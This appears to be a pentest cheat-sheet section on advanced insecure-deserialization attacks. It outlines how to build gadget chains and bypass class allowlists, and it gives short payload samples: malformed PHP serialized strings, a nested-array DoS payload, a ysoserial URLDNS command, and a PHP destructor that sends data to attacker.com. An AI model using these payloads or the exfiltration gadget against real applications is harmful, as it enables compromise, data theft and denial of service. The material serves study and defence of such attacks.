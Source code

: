- **Advanced exploitation techniques**
  
  - **Building custom gadget chains**
    
    - **Analyzing application code**
      - Identify classes with dangerous methods
      - Look for classes implementing serializable interfaces
      - Find methods that access the filesystem, network, or execute code
      - Target initialization methods, destructors, and conversion functions
    
    - **Chaining multiple gadgets**
      - Connect multiple objects via properties
      - Create complex chains for specific attacks
      - Example chain phases:
        1. Trigger point (magic method execution)
        2. Property reference chain (connect objects)
        3. Sink gadget (dangerous functionality)
    
    - **Bypassing protections**
      - Target alternative serialization formats (JSON, XML)
      - Use type confusion for filter bypass
      - Exploit nested serialization formats
      - Bypass allowlist of classes using polymorphism
  
  - **Exploiting memory corruption**
    
    - **Manipulating internal structures**
      - Craft malicious objects with invalid internal states
      - Target parser assumptions about object integrity
      - Exploit integer overflows in length fields
      - Example: PHP string length exploitation
        ```php
        // Crafting object with inconsistent string length
        O:8:"stdClass":1:{s:1:"a";s:10:"short"}
        ```
    
    - **Deserialization DoS attacks**
      - Create deeply nested structures
      - Exploit hash collisions
      - Construct serialized objects that cause excessive memory usage
      - Example: PHP billion laughs attack
        ```php
        a:1:{i:0;a:1:{i:0;a:1:{i:0;a:1:{i:0;a:1:{i:0;a:1:{...}}}}}}
        ```
  
  - **Side-channel exploitation**
    
    - **Blind deserialization attacks**
      - Use time delays to confirm vulnerability
      - Execute commands that cause network interactions
      - Example Java URLDNS gadget:
        ```
        java -jar ysoserial.jar URLDNS http://canary.example.com/
        ```
    
    - **Out-of-band (OOB) data exfiltration**
      - Extract sensitive data via DNS or HTTP requests
      - Use serialized objects that send data to attacker-controlled servers
      - Example PHP gadget:
        ```php
        class Exfiltrator {
          public $data = "sensitive data";
          function __destruct() {
            file_get_contents("http://attacker.com/?" . urlencode($this->data));
          }
        }
        ```
